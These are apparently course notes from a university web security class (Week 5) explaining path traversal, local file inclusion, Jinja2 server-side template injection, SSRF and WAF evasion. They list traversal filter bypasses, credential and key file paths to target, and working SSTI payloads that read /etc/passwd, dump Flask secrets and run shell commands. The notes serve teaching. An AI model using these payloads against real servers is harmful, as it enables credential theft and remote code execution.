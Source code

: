 # Week 5
- Local File Disclosure (LFD)
  - Path Traversal
  - `"/app/files" + "../../etc/passwd"` => `/etc/passwd`
  - Removing `../` is quite common: `....//` => `../`, `..././` => `../`
  - Interesting filepaths:
    ```
    # Relative Paths
    ./
    ../

    # Webserver Stuff
    .htaccess
    /var/log/apache2/{access, error}.log
    /etc/apache2/apache2.conf
    /etc/nginx/nginx.conf

    # App Stuff
    .git
    app.py
    /home/${user}
    ~/.ssh/id_rsa

    # Linux Stuff
    /proc/self/{environ, cmdline}
    /etc/{passwd, shadow}
    /etc/resolv.conf
    ```
- Local File Inclusion (LFI)
  - Including as in `#include 'filename'` (C) or `include 'filename';` (PHP).
  - PHP also has `require 'filename';` but that will crash (500) if the file does not exist.
  - Useful if you can upload a file and view it - check if you can execute it on the server.
    - Either by including it or making the server think it is executable.
    - Often this is just based on file extension, i.e. visiting a .php file results in executing it.
    - This is how CSE's websites typically work: https://cgi.cse.unsw.edu.au/~z5361056/acc.py (on CSE's servers = not in scope BTW).
      - .py file with correct permissions so therefore it gets run.
- Server-Side Template Injection (SSTI)
  - `{{ "hello " + "world" }}` => `"hello world"`
  - e.g. `{{ "".__class__.__mro__[1].__subclasses__() }}`
    - MRO = method resolution order (i.e. we will check these classes in this order for the methods you try run)
      - ```python
          class A(object):
              def __repr__(self):
                  return 'A'

          class B_one(A):
              def __repr__(self):
                  return 'B1'

          class B_two(A):
              def __repr__(self):
                  return 'B2'

          class C(B_one):
              def __repr__(self):
                  return 'C'

          A.__subclasses__()  # => [__main__.B_one, __main__.B_two]
          C.__mro__  # => (__main__.C, __main__.B_one, __main__.A, object)
      ```
  - Useful Payloads
    - Check for the vuln: `{{7*6}}`
    - Output Flask config (often includes DB credentials or session secret keys): `{{config}}`
    - Read file: `{{'abc'.__class__.__base__.__subclasses__()[92].__subclasses__()[0].__subclasses__()[0]('/etc/passwd').read()}}`
      - You may have to mess with the indices a bit, e.g. on my Mac you want `111` instead of `92`.
    - Use code from a module (this example is also RCE): `{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`
  - TBH stole MRO example and most of these payloads from https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/
- Server Side Request Forgery (SSRF)
  - Any time you can get a server to send a request (usually HTTP(S), but sometimes DNS, FTP or whatever else).
  - e.g. A website where you can upload an image by giving it a URL rather than actually uploading a file.
    - The website will (typically) download the file from the URL, so it must send a request to it, which may give you more information (especially if it's something more interesting than an image upload).
  - Maybe your URL gets info attached to it, e.g. the server sends a request to `http://yoursite.com/<insert_data_here>` or to `http://<insert_data_here>.yoursite.com`.
- Reverse Proxies/WAFs
  - Most WAFs you have to deal with in this course are very basic.
    - Mostly looking for characters or character combinations e.g. `;` and `--`.
    - Anything more complicated you'll usually get source code because it's otherwise just trial and error.
    - But don't trust this too much because idk what Andrew and Lachlan may have cooked up.
  - Real-world WAFs are a pain especially from large providers like Cloudflare, since you'll get banned from all the sites they proxy.
    - No way to see exactly what caused a block.
    - No way to know how many requests will get you banned.s